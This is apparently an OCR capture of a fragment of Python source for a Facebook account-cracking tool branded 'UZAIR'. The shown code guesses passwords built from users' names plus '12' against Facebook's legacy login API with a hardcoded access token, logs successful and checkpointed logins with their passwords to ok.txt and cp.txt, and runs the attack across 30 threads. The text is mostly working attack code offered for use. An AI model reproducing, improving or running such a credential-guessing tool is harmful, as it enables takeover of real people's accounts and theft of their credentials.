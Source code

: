 		                                                else:

		                                                    pass7=name+"12"

		                                                    q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass7 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text

		                                                    d=json.loads(q)

		                                                    if 'www.facebook.com' in d['error_msg']:

		                                                        print("\x1b[1;93m[UZAIR-CP] "+uid+" | "+pass7)

		                                                        cp=open("cp.txt","a")

		                                                        cp.write(uid+" | "+pass7+"\n")

		                                                        cp.close()

		                                                        cps.append(uid)

		                                                    else:

		                                                        if 'access_token' in d:

		                                                            print("\x1b[1;97m[UZAIR-OK] "+uid+" | "+pass7+"\x1b[1;0m")

		                                                            ok=open("ok.txt","a")

		                                                            ok.write(uid+" | "+pass7+"\n")

		                                                            ok.close()

		                                                            oks.append(uid)





		except:

			pass



	p = ThreadPool(30)

	p.map(main, id)

	print (" ")

	print (47*"-")

	print ("-> Your Process has completed Successful")

	print ("-> Total Cp/Ok : "+str(len(cps)) + "/"+str(len(oks)))

	print (47*"-")

	raw_input("\t\x1b[0;97mPress enter to main menu back")

	menu()



if __name__ == '__main__':

    main()



